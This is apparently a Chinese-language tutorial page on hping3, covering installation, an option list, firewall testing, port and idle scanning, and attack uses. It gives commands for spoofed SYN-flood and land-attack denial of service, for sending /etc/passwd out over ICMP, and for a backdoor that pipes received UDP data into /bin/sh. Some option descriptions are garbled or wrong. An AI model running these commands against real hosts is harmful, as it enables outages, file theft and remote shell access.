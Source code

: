 #  Linux Command hping3 测试网络安全工具



---------------
## 1. 简介
测试网络及主机的安全。
hping 是用于生成和解析TCPIP协议数据包的开源工具。创作者是[Salvatore Sanfilippo](https://github.com/antirez)。目前最新版是hping3，支持使用`tcl`脚本自动化地调用其API。hping是安全审计、防火墙测试等工作的标配工具。hping优势在于能够定制数据包的各个部分，因此用户可以灵活对目标机进行细致地探测。

## 2. 安装

```bash
yum install libpcap-devel tc-devel
ln -s /usr/include/pcap-bpf.h /usr/include/net/bpf.h
wget http://www.hping.org/hping3-20051105.tar.gz
tar zxvf hping3-20051105.tar.gz
cd hping3-20051105
./configure
make
make install
```

## 3. 选项

```bash
-H --help 显示帮助。
-v -VERSION 版本信息。
-c --count count 发送数据包的次数 关于countreached_timeout 可以在hping2.h里编辑。
-i --interval 包发送间隔时间（单位是毫秒）缺省时间是1秒,此功能在增加传输率上很重要,在idle/spoofing扫描时此功能也会被用到,你可以参考hping-howto获得更多信息-fast 每秒发10个数据包。
-n -nmeric 数字输出，象征性输出主机地址。
-q -quiet 退出。
-I --interface interface name 无非就是eth0之类的参数。
-v --verbose 显示很多信息，TCP回应一般如：len=46 ip=192.168.1.1 flags=RADF seq=0 ttl=255 id=0 win=0 rtt=0.4ms tos=0 iplen=40 seq=0 ack=1380893504 sum=2010 urp=0
-D --debug 进入debug模式当你遇到麻烦时，比如用HPING遇到一些不合你习惯的时候，你可以用此模式修改HPING，（INTERFACE DETECTION,DATA LINK LAYER ACCESS,INTERFACE SETTINGS,.......）
-z --bind 快捷键的使用。
-Z --unbind 消除快捷键。
-O --rawip RAWIP模式，在此模式下HPING会发送带数据的IP头。
-1 --icmp ICMP模式，此模式下HPING会发送IGMP应答报，你可以用--ICMPTYPE --ICMPCODE选项发送其他类型/模式的ICMP报文。
-2 --udp UDP 模式，缺省下，HPING会发送UDP报文到主机的0端口，你可以用--baseport --destport --keep选项指定其模式。
-9 --listen signatuer hping的listen模式，用此模式，HPING会接收指定的数据。
-a --spoof hostname 伪造IP攻击，防火墙就不会记录你的真实IP了，当然回应的包你也接收不到了。
-t --ttl time to live 可以指定发出包的TTL值。
-H --ipproto 在RAW IP模式里选择IP协议。
-w --WINID UNIX ,WINDIWS的id回应不同的，这选项可以让你的ID回应和WINDOWS一样。
-r --rel 更改ID的，可以让ID曾递减输出，详见HPING-HOWTO。
-F --FRAG 更改包的FRAG，这可以测试对方对于包碎片的处理能力，缺省的“virtual mtu”是16字节。
-x --morefrag 此功能可以发送碎片使主机忙于恢复碎片而造成主机的拒绝服务。
-y -dontfrag 发送不可恢复的IP碎片，这可以让你了解更多的MTU PATH DISCOVERY。
-G --fragoff fragment offset value set the fragment offset
-m --mtu mtu value 用此项后ID数值变得很大，50000没指定此项时3000-20000左右。
-G --rroute 记录路由，可以看到详悉的数据等等，最多可以经过9个路由，即使主机屏蔽了ICMP报文。
-C --ICMPTYPE type 指定ICMP类型，缺省是ICMP echo REQUEST。
-K --ICMPCODE CODE 指定ICMP代号，缺省0。
--icmp-ipver 把IP版本也插入IP头。
--icmp-iphlen 设置IP头的长度，缺省为5（32字节）。
--icmp-iplen 设置IP包长度。
--icmp-ipid 设置ICMP报文IP头的ID，缺省是RANDOM。
--icmp-ipproto 设置协议的，缺省是TCP。
-icmp-cksum 设置校验和。
-icmp-ts alias for --icmptype 13 (to send ICMP timestamp requests)
--icmp-addr Alias for --icmptype 17 (to send ICMP address mask requests)
-s --baseport source port hping 用源端口猜测回应的包，它从一个基本端口计数，每收一个包，端口也加1，这规则你可以自己定义。
-p --deskport [+][+]desk port 设置目标端口，缺省为0，一个加号设置为:每发送一个请求包到达后，端口加1，两个加号为：每发一个包，端口数加1。
--keep 上面说过了。
-w --win 发的大小和windows一样大，64BYTE。
-O --tcpoff Set fake tcp data offset. Normal data offset is tcphdrlen / 4.
-m --tcpseq 设置TCP序列数。
-l --tcpck 设置TCP ack。
-Q --seqnum 搜集序列号的，这对于你分析TCP序列号有很大作用。
```

## 4. Hping3功能
Hping3主要有以下典型功能应用：

###  4.1 防火墙测试


测试防火墙对ICMP包的反应、是否支持`traceroute`、是否开放某个端口、对防火墙进行拒绝服务攻击（DoS attack）。例如，以LandAttack方式测试目标防火墙（Land Attack是将发送源地址设置为与目标地址相同，诱使目标机与自己不停地建立连接）。

```bash
hping3 -S  -c 1000000 -a 10.10.10.10 -p 21 10.10.10.10
```

### 4.2 端口扫描
Hping3也可以对目标端口进行扫描。Hping3支持指定TCP各个标志位、长度等信息。以下示例可用于探测目标机的80端口是否开放：

```bash
hping3 -I eth0  -S 192.168.10.1 -p 80
```

其中-I eth0指定使用eth0端口，-S指定TCP包的标志位SYN，-p 80指定探测的目的端口。

hping3支持非常丰富的端口探测方式，nmap拥有的扫描方式hping3几乎都支持（除开connect方式，因为Hping3仅发送与接收包，不会维护连接，所以不支持connect方式探测）。而且Hping3能够对发送的探测进行更加精细的控制，方便用户微调探测结果。当然，Hping3的端口扫描性能及综合处理能力，无法与Nmap相比。一般使用它仅对少量主机的少量端口进行扫描。

### 4.3 Idle扫描
Idle扫描（Idle Scanning）是一种匿名扫描远程主机的方式，该方式也是有Hping3的作者Salvatore Sanfilippo发明的，目前Idle扫描在Nmap中也有实现。

该扫描原理是：寻找一台idle主机（该主机没有任何的网络流量，并且IPID是逐个增长的），攻击端主机先向idle主机发送探测包，从回复包中获取其IPID。冒充idle主机的IP地址向远程主机的端口发送SYN包（此处假设为SYN包），此时如果远程主机的目的端口开放，那么会回复SYN/ACK，此时idle主机收到SYN/ACK后回复RST包。然后攻击端主机再向idle主机发送探测包，获取其IPID。那么对比两次的IPID值，我们就可以判断远程主机是否回复了数据包，从而间接地推测其端口状态。

### 4.4 拒绝服务攻击
使用Hping3可以很方便构建拒绝服务攻击。比如对目标机发起大量SYN连接，伪造源地址为`192.168.10.99`，并使用1000微秒的间隔发送各个SYN包。

```bash
hping3 -I eth0 -a192.168.10.99 -S 192.168.10.33 -p 80 -i u1000
```

其他攻击如smurf、teardrop、land attack等也很容易构建出来。

### 4.5 文件传输
Hping3支持通过TCP/UDP/ICMP等包来进行文件传输。相当于借助TCP/UDP/ICMP包建立隐秘隧道通讯。实现方式是开启监听端口，对检测到的签名（签名为用户指定的字符串）的内容进行相应的解析。在接收端开启服务：

```bash
hping3 192.168.1.159--listen signature --safe  --icmp
```

监听ICMP包中的签名，根据签名解析出文件内容。

在发送端使用签名打包的ICMP包发送文件：

```bash
hping3 192.168.1.108--icmp ?d 100 --sign signature --file /etc/passwd
```

将/etc/passwd密码文件通过ICMP包传给192.168.10.44主机。发送包大小为100字节（-d 100），发送签名为signature(-sign signature)。

### 4.6 木马功能
如果Hping3能够在远程主机上启动，那么可以作为木马程序启动监听端口，并在建立连接后打开shell通信。与netcat的后门功能类似。

示例：本地打开53号UDP端口（DNS解析服务）监听来自192.168.10.66主机的包含签名为signature的数据包，并将收到的数据调用/bin/sh执行。

在木马启动端：

```bash
hping3 192.168.10.66--listen signature --safe --udp -p 53 | /bin/sh
```

在远程控制端：

```bash
echo ls >test.cmd
hping3 192.168.10.44 -p53 -d 100 --udp --sign siganature --file ./test.cmd
```

将包含ls命令的文件加上签名signature发送到192.168.10.44主机的53号UDP端口，包数据长度为100字节。

当然这里只是简单的演示程序，真实的场景，控制端可以利益shell执行很多的高级复杂的操作。


更多阅读：

 - [hping3(8) - Linux man page](https://linux.die.net/man/8/hping3)
 - [Hping Tips and Tricks](https://iphelix.medium.com/hping-tips-and-tricks-85698751179f)
 - [Hping3: Create TCP / IP Packets and Perform DoS Attacks on Lin](https://itigic.com/hping3-create-tcp-ip-packets-and-perform-dos-attacks-on-linux/)

